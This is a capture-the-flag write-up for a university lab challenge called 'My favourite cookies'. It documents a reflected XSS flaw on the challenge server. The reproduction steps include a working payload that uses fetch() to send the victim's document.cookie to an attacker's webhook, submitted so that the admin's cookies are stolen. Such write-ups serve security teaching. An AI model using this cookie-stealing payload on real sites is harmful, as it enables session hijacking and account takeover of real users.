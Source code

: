 # Challenge `My favourite cookies` writeup

- Vulnerability: XSS
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251` 'link of the bug/feature to report' box
- Impact: Allows an attacker to inject malicious code in the webpage

## Steps to reproduce

1. Get a URL in [Webhook](https://webhook.site/) to collect your http requests
2. URL-encode the script `<script>fetch("`_`<your_webhook_url>`_`?cookie="+document.cookie)</script>`
3. Write the URL `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=`_`<url_encoded_script>`_ in the 'link of the bug/feature to report' box and click `Submit`
4. When the admin opens the link the script will be executed, sending a http request to your Webhook URL with his cookies

[(POC)](pocs/my_favourite_cookies_poc.py)
